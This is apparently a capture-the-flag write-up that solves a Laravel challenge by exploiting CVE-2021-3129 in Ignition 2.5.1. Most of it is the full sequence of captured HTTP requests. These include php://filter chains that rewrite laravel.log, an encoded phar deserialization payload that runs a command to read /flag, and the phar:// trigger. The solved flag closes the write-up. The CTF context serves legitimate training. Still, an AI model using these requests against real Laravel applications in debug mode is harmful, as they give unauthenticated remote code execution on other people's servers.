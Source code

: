 # Challenge 25 (Ignite) Solve

* Category - Laravel
* Difficulty - Ultimate

![](challenge-25.png)

* This challenge is our first at the Ultimate level so we must have some work to do.
* The page explains a few things all at once:
  * Dropped Whoops!
  * Added Ignition 2.5.1
  * The flag is at `/flag`
  * Upgraded to Laravel 8
  * An error on the `/dashboard` route

![](challenge-25-error.png)

* So the removal of Whoops is interesting. Its an error tracker and the release notes for Laravel 6 say:

> Laravel 6 ships with Ignition, a new open source exception detail page created by Freek Van der Herten and Marcel Pociot. Ignition offers many benefits over previous releases, such as improved Blade error file and line number handling, runnable solutions for common problems, code editing, exception sharing, and an improved UX.

* So we know at least we can't exploit something if its gone.
* The error page above is Ignition
* So lets do some research about this Ignition 2.5.1

> Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file_get_contents() and file_put_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

* It did not take long to find a CVE for this [CVE-2021-3129](https://nvd.nist.gov/vuln/detail/CVE-2021-3129)
  * This appears to be an arbitrary code execution vulnerability.
* So lets Google for a POC to work from
  * I found a cool research PoC on [GitHub](https://github.com/knqyf263/CVE-2021-3129/blob/main/attacker/exploit.py) from [knqyf263](https://github.com/knqyf263)
  * As well as the actual release of the vulnerability from [Ambionics](https://www.ambionics.io/blog/laravel-debug-rce) which has the real good details of the exploit
* So lets pull down this [PoC](https://github.com/knqyf263/CVE-2021-3129/blob/main/attacker/exploit.py) and adjust the script with our variables.
* Lets also attach a proxy so we can record how this attack works for our own curiosity.

```
POST /_ignition/execute-solution HTTP/1.1
Host: a75d3114ed6c60076f51c081d377da5b.chals.io
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 307
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```

```
POST /_ignition/execute-solution HTTP/1.1
Host: a75d3114ed6c60076f51c081d377da5b.chals.io
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 307
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16le|convert.quoted-printable-encode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```

```
POST /_ignition/execute-solution HTTP/1.1
Host: a75d3114ed6c60076f51c081d377da5b.chals.io
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 142
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "aa"}}
```

```
POST /_ignition/execute-solution HTTP/1.1
Host: a75d3114ed6c60076f51c081d377da5b.chals.io
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 4461
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=72=00=56=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=42=00=2B=00=41=00=51=00=41=00=41=00=54=00=7A=00=6F=00=7A=00=4D=00=6A=00=6F=00=69=00=54=00=57=00=39=00=75=00=62=00=32=00=78=00=76=00=5A=00=31=00=78=00=49=00=59=00=57=00=35=00=6B=00=62=00=47=00=56=00=79=00=58=00=46=00=4E=00=35=00=63=00=32=00=78=00=76=00=5A=00=31=00=56=00=6B=00=63=00=45=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=45=00=36=00=65=00=33=00=4D=00=36=00=4F=00=54=00=6F=00=69=00=41=00=43=00=6F=00=41=00=63=00=32=00=39=00=6A=00=61=00=32=00=56=00=30=00=49=00=6A=00=74=00=50=00=4F=00=6A=00=49=00=35=00=4F=00=69=00=4A=00=4E=00=62=00=32=00=35=00=76=00=62=00=47=00=39=00=6E=00=58=00=45=00=68=00=68=00=62=00=6D=00=52=00=73=00=5A=00=58=00=4A=00=63=00=51=00=6E=00=56=00=6D=00=5A=00=6D=00=56=00=79=00=53=00=47=00=46=00=75=00=5A=00=47=00=78=00=6C=00=63=00=69=00=49=00=36=00=4E=00=7A=00=70=00=37=00=63=00=7A=00=6F=00=78=00=4D=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=61=00=47=00=46=00=75=00=5A=00=47=00=78=00=6C=00=63=00=69=00=49=00=37=00=63=00=6A=00=6F=00=79=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6C=00=4E=00=70=00=65=00=6D=00=55=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=54=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4E=00=44=00=4D=00=36=00=49=00=6D=00=56=00=6A=00=61=00=47=00=38=00=67=00=5A=00=54=00=59=00=7A=00=4F=00=47=00=52=00=68=00=5A=00=6A=00=59=00=67=00=4A=00=69=00=59=00=67=00=59=00=32=00=46=00=30=00=49=00=43=00=39=00=6D=00=62=00=47=00=46=00=6E=00=49=00=43=00=59=00=6D=00=49=00=47=00=56=00=6A=00=61=00=47=00=38=00=67=00=5A=00=54=00=59=00=7A=00=4F=00=47=00=52=00=68=00=5A=00=6A=00=59=00=69=00=4F=00=33=00=4D=00=36=00=4E=00=54=00=6F=00=69=00=62=00=47=00=56=00=32=00=5A=00=57=00=77=00=69=00=4F=00=30=00=34=00=37=00=66=00=58=00=31=00=7A=00=4F=00=6A=00=67=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=78=00=6C=00=64=00=6D=00=56=00=73=00=49=00=6A=00=74=00=4F=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=51=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=6C=00=75=00=61=00=58=00=52=00=70=00=59=00=57=00=78=00=70=00=65=00=6D=00=56=00=6B=00=49=00=6A=00=74=00=69=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=78=00=4E=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=59=00=6E=00=56=00=6D=00=5A=00=6D=00=56=00=79=00=54=00=47=00=6C=00=74=00=61=00=58=00=51=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=78=00=4D=00=7A=00=6F=00=69=00=41=00=43=00=6F=00=41=00=63=00=48=00=4A=00=76=00=59=00=32=00=56=00=7A=00=63=00=32=00=39=00=79=00=63=00=79=00=49=00=37=00=59=00=54=00=6F=00=79=00=4F=00=6E=00=74=00=70=00=4F=00=6A=00=41=00=37=00=63=00=7A=00=6F=00=33=00=4F=00=69=00=4A=00=6A=00=64=00=58=00=4A=00=79=00=5A=00=57=00=35=00=30=00=49=00=6A=00=74=00=70=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=32=00=4F=00=69=00=4A=00=7A=00=65=00=58=00=4E=00=30=00=5A=00=57=00=30=00=69=00=4F=00=33=00=31=00=39=00=66=00=51=00=55=00=41=00=41=00=41=00=42=00=6B=00=64=00=57=00=31=00=74=00=65=00=51=00=51=00=41=00=41=00=41=00=44=00=69=00=4A=00=47=00=42=00=68=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=30=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=30=00=5A=00=58=00=4E=00=30=00=4C=00=6E=00=52=00=34=00=64=00=41=00=51=00=41=00=41=00=41=00=44=00=69=00=4A=00=47=00=42=00=68=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=30=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=52=00=30=00=5A=00=58=00=4E=00=30=00=61=00=56=00=77=00=38=00=6B=00=6C=00=71=00=58=00=56=00=56=00=74=00=55=00=57=00=55=00=6E=00=4C=00=34=00=79=00=31=00=78=00=72=00=6E=00=6E=00=47=00=51=00=48=00=55=00=43=00=41=00=41=00=41=00=41=00=52=00=30=00=4A=00=4E=00=51=00=67=00=3D=00=3D=00a"}}
```

``` 
POST /_ignition/execute-solution HTTP/1.1
Host: a75d3114ed6c60076f51c081d377da5b.chals.io
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 278
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"}}
```

```
POST /_ignition/execute-solution HTTP/1.1
Host: a75d3114ed6c60076f51c081d377da5b.chals.io
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: application/json
Connection: close
Content-Length: 183
Content-Type: application/json

{"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": {"variableName": "cve20213129", "viewFile": "phar://../storage/logs/laravel.log/test.txt"}}
```

---
* You are left with the flag - `TOAD{50-Y0u'v3-83c0M3-9009L3}`.